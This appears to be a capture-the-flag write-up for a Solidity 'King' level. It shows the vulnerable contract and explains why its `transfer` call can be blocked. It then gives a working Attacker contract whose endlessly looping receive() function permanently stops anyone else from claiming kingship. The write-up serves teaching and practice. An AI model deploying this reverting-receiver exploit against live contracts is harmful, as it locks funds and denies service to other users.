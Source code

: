 # King

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract King {

  address king;
  uint public prize;
  address public owner;

  constructor() payable {
    owner = msg.sender;  
    king = msg.sender;
    prize = msg.value;
  }

  receive() external payable {
    require(msg.value >= prize || msg.sender == owner);
    payable(king).transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
  }

  function _king() public view returns (address) {
    return king;
  }
}
```

## Goal

Stop another account (EOA or contract) of reclaiming kingship

## Exploit

In order to finish this CTF we will have to use another smart contract. We can name this contract Attacker.

If we take a look at the contract, we can notice that the vulnerable part of the code is located in the following code:

```
payable(king).transfer(msg.value);
```

When someone tries to renounce kingship, the ether send in the transaction is sent to the current king.

The issue is in the transfer function, it reverts if the transaction conducts more than 2300 gas, so what we can do is, we can become king, and when someone tries to become new king, when the ether will be send to our Attacker contract, we can cause the transaction to revert.

To exploit the contract we need to:

1. create Attacker contract, and send the address of the King contract in the constructor.
2. in the constructor we send a transaction to King contract with some value in order for the Attacker contract to become King
3. implement receive() function to run in infinite loop, this will cause failure of the transaction because of too much gas

## Attacker contract code

```
contract Attacker {
  uint256 private count;

  constructor(address king) payable {
    (bool sent, ) = king.call{value: msg.value}("");
    require(sent, "Failed to send Ether");
  }

  receive() external payable {
    while (true) {
      count++;
    }
  }
}
```